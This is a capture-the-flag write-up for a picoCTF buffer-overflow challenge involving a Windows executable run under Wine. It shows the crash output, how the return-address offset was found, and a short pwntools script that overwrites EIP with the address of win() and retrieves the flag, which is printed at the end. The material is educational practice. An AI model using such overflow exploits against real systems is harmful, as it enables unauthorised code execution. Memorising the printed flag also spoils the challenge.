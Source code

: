 # Stack Cache - 400 pts

### Key points

- Buffer Overflow

---

## **Contents**

- [Overview](#overview)
- [Solution](#solution)
- [Flag](#the-flag)

---

## Overview

### Description

> Challenge best paired with wine. I love windows. Checkout my exe running on a linux box. You can view source here. And connect with it using nc saturn.picoctf.net 61889

We are given a binary and its source code.

---

## Solution

Upon opening `vuln.c`, we see that the source code is very _very_ similar to the other buffer overflow challenges. The only difference being it is a Windows executable. You will find the solution is basically the same too.

Here's a quick breakdown of the source code:

`main()` calls `vuln()`

`vuln()` reads an input of buffer size 128 via `gets()`

`win()` opens and reads a file `flag.txt` and prints it, but `win()` is never called.

As with the basic buffer overflow challenges, we simply have to find the offset of the return instruction, and overwrite it with the address of `win()`.

---

### **Wine**

Wine (Wine Is Not an Emulator) is tool that allows Windows executables to be run on other operating systems, such as macOS and Linux.

If you don't have Wine, you can install it with

```console
$ sudo apt install wine64
```

or

```console
$ sudo apt install wine32
```

if you are running on a 32-bit operating system.

After installing, we can run the binary:

```console
$ wine vuln.exe
Give me a string!
flag pls
```

...and it exits.

The buffer size is 128, so lets enter a little more than 128 bytes:

```console
$ wine vuln.exe
Give me a string!
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbccccddddeeeeffffgggghhhh
wine: Unhandled page fault on read access to 65656565 at address 65656565 (thread 0009), starting debugger...
002c:err:winediag:nodrv_CreateWindow Application tried to create a window, but no driver could be loaded.
002c:err:winediag:nodrv_CreateWindow Make sure that your X server is running and that $DISPLAY is set correctly.
Unhandled exception: page fault on read access to 0x65656565 in 32-bit code (0x65656565).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:006b GS:0063
 EIP:65656565 ESP:0064fe80 EBP:64646464 EFLAGS:00010246(  R- --  I  Z- -P- )
 EAX:0064fdf0 EBX:00230e74 ECX:0064fde0 EDX:7fa4a8d8
 ESI:0000001c EDI:0021ffc4
 ...
```

Looks like we succesfully overwrote the `eip` register with `0x65656565` (`'eeee'`). So we need to enter 140 bytes, then the address of `win()`.

Let's find the address of `win()` using objdump:

```console
$ objdump -d vuln.exe | grep "win"
00401530 <_win>:
  401551:       75 18                   jne    40156b <_win+0x3b>
```

The address is `0x00401530`. Scripting time!

Send our payload to the remote server: (this specific challenge remote may take around 10 seconds to return a value because it needs to start Wine)

```py
from pwn import *

payload = 140*b"a" + p32(0x00401530)

r = remote("saturn.picoctf.net", "61889")
r.sendline(payload)
result = str(r.recvall())
r.close()
```

Then parse the result and print our flag:

```py
FLAG = result[result.index("picoCTF"):result.index("}") + 1]
print("Flag:", FLAG)
```

---

## Flag

> `picoCTF{Un_v3rr3_d3_v1n_cdac4d01}`

That's French for "A glass of wine", by the way.
